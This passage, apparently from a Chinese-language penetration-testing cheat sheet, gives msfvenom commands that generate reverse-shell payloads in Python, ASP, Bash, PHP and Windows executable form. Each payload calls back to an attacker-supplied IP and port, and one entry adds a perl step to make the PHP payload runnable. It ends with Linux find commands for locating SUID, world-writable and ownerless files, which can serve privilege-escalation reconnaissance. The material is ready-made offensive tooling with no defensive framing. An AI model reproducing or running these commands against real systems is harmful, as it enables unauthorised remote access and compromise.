 > 
<pre>msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py</pre>


### 36.MSF 生成反弹 ASP Shell

> 
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; -f asp -a x86 --platform win -o shell.asp</pre>


### 37.MSF 生成反弹 Bash Shell

> 
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; -o shell.sh</pre>


### 38.MSF 生成反弹 PHP Shell

> 
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; -o shell.php
add &lt;?php at the beginning
perl -i~ -0777pe's/^/&lt;?php \n/' shell.php</pre>


### 39.MSF 生成反弹 Win Shell

> 
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;Your IP Address&gt; LPORT=&lt;Your Port to Connect On&gt; -f exe -a x86 --platform win -o shell.exe</pre>


### 40.Linux 常用安全命令

> 
<pre>// 使用 uid 查找对应的程序
find / -uid 0 -perm -4000


// 查找哪里拥有写权限
find / -perm -o=w


// 查找名称中包含点和空格的文件
find / -name " " -print
find / -name ".." -print
find / -name ". " -print
find / -name " " -print


// 查找不属于任何人的文件
find / -nouser


// 查找未链接的文件
lsof +L1
